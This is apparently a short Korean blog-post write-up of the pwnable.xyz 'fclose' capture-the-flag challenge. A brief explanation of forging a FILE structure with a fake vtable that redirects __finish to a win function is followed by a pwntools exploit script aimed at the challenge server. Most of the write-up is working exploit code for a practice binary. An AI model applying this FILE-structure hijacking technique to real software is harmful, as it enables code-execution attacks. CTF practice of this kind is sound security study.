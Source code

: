 ```yaml
---
title: "[pwnable.xyz]fclose"
date: 2020-2-26
ctf: Pwnable.xyz
layout: post
published : false
---
```


파일 구조체에 입력을 받기 때문에 값 맞춰서 잘 넣어주면 된다. fake vtable을 만들어 __finish를 win함수로 덮어주면 된다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./challenge')
#p = process('./challenge')
p = remote('svc.pwnable.xyz',30018)
input_val = 0x0000000000601260
win = e.symbols['win']

payload = p64(0) * 17
payload += p64(input_val) # _IO_lock_t -> NULL bytes
payload += p64(0) * 9
payload += p64(input_val + 224) # vtable
payload += p64(win) * 20
p.sendafter('>',payload)

p.interactive()
```

